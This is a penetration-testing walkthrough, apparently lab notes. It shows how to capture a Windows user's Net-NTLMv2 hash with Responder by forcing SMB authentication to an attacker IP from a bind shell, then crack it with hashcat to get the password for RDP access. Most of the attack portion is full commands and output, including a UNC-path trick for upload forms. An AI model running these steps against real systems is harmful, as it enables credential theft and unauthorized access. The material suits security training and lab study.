

# Cracking Net-NTLMv2

In instances, an attacker may obtain code execution or a shell on a Windows system as an unprivileged user. This means that they cannot use tools like Mimikatz to extract passwords or NTLM hashes. In situations like these, they can abuse the [NTLMv2](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-nlmp/5e550938-91d4-459f-b67d-75d70009e3f3) network authentication protocol (also sometimes called Net-NTLMv2). This protocol is responsible for managing the authentication process for Windows clients and servers over a network.

## Responder

In order to abuse the protocol, an attacker must **arrange for the target to start an authentication process, using NTLMv2, against an attacker-controlled system**. Beforehand, they need to prepare the system so that it handles the authentication process and displays the NTLMv2 hash used by the target to authenticate.

[Responder](https://github.com/lgandx/Responder) is a tool that can aid in this. It includes a built-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes.&#x20;

It also includes other protocol servers including (including&#x20;

* HTTP
* FTP
* [Link-Local Multicast Name Resonlution](https://en.wikipedia.org/wiki/Link-Local\_Multicast\_Name\_Resolution) (LLMNR)
* [NetBIOS Name Service](https://en.wikipedia.org/wiki/NetBIOS#Name\_service) (NBT-NS)
* [Multicast DNS](https://en.wikipedia.org/wiki/Multicast\_DNS) (MDNS) [poisoning capabilities](https://attack.mitre.org/techniques/T1557/001/)

This example will focus on capturing Net-NTLMv2 hashes with the SMB server.

### Forcing Authentication

If code execution has been obtained on the target system (as in this example), initiating authentication is a simple task. The attacker can simply open a PowerShell session and `ls \\<Attacker-IP\share` which will cause the target machine to attempt authentication. Assuming the attacker is running Responser on their machine, and thus listening for incoming connections on SMP ports, the hash can be intercepted.

If code execution has not been obtained there are still potential attack vectors. For example, if the target is running a web server that accepts file uploads, an attacker could attempt to enter a nonexistant file with a UNC path like `\\<Attacker-IP>\share\nonexistent`. If the web server supports upload via SMB, it will attempt to authenticate to the attacker's machine.

While the former is simpler, and thus will be used in this example, the latter is a more likely attack vector in the real world.

## Example

### Background and Assumptions

In this example, the goal is to gain access to an SMB share on a Windows 2022 server from a Windows 11 client via Net-NTLMv2.

NTLMv2 is used for this example since it is less secure than [Kerberos](https://en.wikipedia.org/wiki/Kerberos\_\(protocol\)). However despite this simplification, this scenario is common in the real-world since the majority of Windows environments still rely on the older protocol, especially as a way to support older devices that may not support Kerberos.

At a high level, the process goes as follows:

1. Client (attacker) will send the server a request, outlining the connection details to access the SMB share.&#x20;
2. Server will send us a challenge in which the client encrypts data for the response with its NTLM hash to prove its identity
3. Server will then check the client's challenge response and either grant or deny access, accordingly

#### Assumptions

* Attacker's machine is at IP `192.168.45.201`
* Target machine is at `192.168.227.211`
  * Attacker has previously created a **bind shell** on the target machine at port `4444`

### Extracting the Hash

For this example, the attacker will connect to the bind shell at port 4444 (from [Assumptions](cracking-net-ntlmv2.md#assumptions) section), and first check if the user they are connecting as (paul) is part of the local Administrators group (which would allow the running of Mimikatz) via the `net user <username>` command:

```shell-session
$ rlwrap nc 192.168.227.211 4444                                                                       
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
files01\paul

C:\Windows\system32>net user paul
net user paul
User name                    paul
Full Name                    paul power
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/3/2022 10:57:06 AM
Password expires             Never
Password changeable          6/3/2022 10:57:06 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   10/19/2023 10:27:49 AM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users *Users                
Global Group memberships     *None                 
The command completed successfully.
```

The `Local Group Memberships` section does not indicate that the account `paul` is part of the local Administrators group which unfortunately preempts Mimikatz as an attack path. Though it is worth noting that Paul is a member of the `Remote Desktop Users` group, meaning he is allowed to connect to the machine via RDP.

#### Attacker Machine

On the attacker's machine, in a separate terminal from the one being used to access the shell, the attacker should open a responder session on the network interface of their choice (`tun0` in this example):

```shell-session
kali@kali:~$ ip a
...
4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 192.168.45.201/24 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 fe80::66d1:b14:ccff:d999/64 scope link stable-privacy proto kernel_ll 
       valid_lft forever preferred_lft forever
                                                                                                                    
kali@kali:~$ sudo responder -I tun0                                                                               
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

...

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [192.168.45.201]
    Responder IPv6             [fe80::66d1:b14:ccff:d999]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-84MJK678BGH]
    Responder Domain Name      [WNMN.LOCAL]
    Responder DCE-RPC Port     [46848]

[+] Listening for events...
```

* `responder` is run with `sudo` because it requires elevated permissions to work with raw sockets at the network level

Responder is now listening on the attacker's machine.

#### Target Machine

On the target machine, the attacker will now arrange for authentication to occur via an attempt to list files on an SMB share:

```powershell
C:\Users\paul\Desktop>cd C:\Windows\system32
cd C:\Windows\system32

C:\Windows\System32>dir \\192.168.45.201\share
dir \\192.168.45.201\share
Access is denied.
```

Access was denied, but that does not mean the capture was unsuccessful.

#### Attacker Machine

When the attacker ran the `dir` command on the target's machine, it reached out and attempted NTLMv2 authentication. Checking the Responder session the attacker will find:


```
[+] Listening for events...                                                                                         

[SMB] NTLMv2-SSP Client   : 192.168.227.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:cf8ab571f3f85662:BB0542FCE8E1CB3357C253E5DDC787AA:010100000000000080C958818002DA01F5064EB01199C9B8000000000200080057004E004D004E0001001E00570049004E002D00380034004D004A004B0036003700380042004700480004003400570049004E002D00380034004D004A004B003600370038004200470048002E0057004E004D004E002E004C004F00430041004C000300140057004E004D004E002E004C004F00430041004C000500140057004E004D004E002E004C004F00430041004C000700080080C958818002DA010600040002000000080030003000000000000000000000000020000007881F41001452D857AC74E8A55F778CFB5F7821B51A2A755405199AF27D41A80A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200300031000000000000000000  
```


This indicates that the user `paul`'s hash was successfully captured. The attacker can then save it for cracking:


```
paul::FILES01:cf8ab571f3f85662:BB0542FCE8E1CB3357C253E5DDC787AA:010100000000000080C958818002DA01F5064EB01199C9B8000000000200080057004E004D004E0001001E00570049004E002D00380034004D004A004B0036003700380042004700480004003400570049004E002D00380034004D004A004B003600370038004200470048002E0057004E004D004E002E004C004F00430041004C000300140057004E004D004E002E004C004F00430041004C000500140057004E004D004E002E004C004F00430041004C000700080080C958818002DA010600040002000000080030003000000000000000000000000020000007881F41001452D857AC74E8A55F778CFB5F7821B51A2A755405199AF27D41A80A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200300031000000000000000000
```


From here the Responder session can be closed and the bind shell exited. Cracking will now occur offline.

### Cracking the Hash

The first step is to investigate which cracking tool will support this format. As usual, start with Hashcat because it is easier to search:

```shell-session
kali@kali:~$ hashcat --help | grep -i "ntlm"                                                  
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
   1000 | NTLM                                                       | Operating System
```

In this case, mode 5600 will be the one used. No rule-list is needed for this example, thus the hash will just be cracked with the basic `rockyou.txt` wordlist:


```shell-session
kali@kali:~$ hashcat -m 5600 -a 0 paul.hash /usr/share/wordlists/rockyou.txt -o paul.cracked
hashcat (v6.2.6) starting
...
```


The cracked hash is stored:


```
PAUL::FILES01:cf8ab571f3f85662:bb0542fce8e1cb3357c253e5ddc787aa:010100000000000080c958818002da01f5064eb01199c9b8000000000200080057004e004d004e0001001e00570049004e002d00380034004d004a004b0036003700380042004700480004003400570049004e002d00380034004d004a004b003600370038004200470048002e0057004e004d004e002e004c004f00430041004c000300140057004e004d004e002e004c004f00430041004c000500140057004e004d004e002e004c004f00430041004c000700080080c958818002da010600040002000000080030003000000000000000000000000020000007881f41001452d857ac74e8a55f778cfb5f7821b51a2a755405199af27d41a80a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340035002e003200300031000000000000000000:123Password123
```


This can then be used to successfully authenticate via RDP:

<figure><figcaption><p>Valid RDP session</p></figcaption></figure>

While this example may not be the most realistic (after all why not just use the bind shell for whatever else the attacker has in mind) it does illustrate the important steps of capturing and cracking an NTLMv2 hash.
